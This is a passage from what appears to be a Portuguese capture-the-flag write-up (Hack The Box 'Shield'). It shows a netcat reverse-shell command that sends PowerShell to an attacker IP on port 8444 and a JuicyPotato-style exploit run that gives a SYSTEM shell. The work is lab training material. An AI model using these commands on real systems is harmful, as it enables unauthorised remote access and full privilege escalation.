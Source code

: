 Com o netcat na máquina alvo, podemos usar o próprio `echo` do Windows para criarmos um script `reverse.bat` com o comando para nos enviar um Power Shell com o netcat.

```
    C:\inetpub\wwwroot\wordpress\wp-content\uploads>echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.15.185 8444 > reverse.bat  
```
<img src="/htb/htb-shield-11.png">

Com tuddo pronto, podemos setar um netcat para ouvir na porta 8444, que foi a utilizada em nosso script e enviar o comando para o exploit.

```
C:\inetpub\wwwroot\wordpress\wp-content\uploads>jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\reverse.bat -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

O exploit executou nosso script e nos deu um reverse shell com privilégios administrativos!!!
